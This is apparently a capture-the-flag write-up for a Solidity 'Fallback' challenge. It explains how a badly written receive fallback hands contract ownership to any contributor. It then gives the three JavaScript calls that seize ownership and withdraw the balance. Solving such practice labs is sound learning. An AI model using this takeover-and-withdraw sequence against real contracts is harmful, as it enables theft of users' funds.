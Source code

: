 ## 1) Catch
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions:
- Calling an non existing function
- Calling an existing function without passing required data
- Sending ether to the contract without any data


## 2) Solutions
- Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
- Triggering the fallback function.

### Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()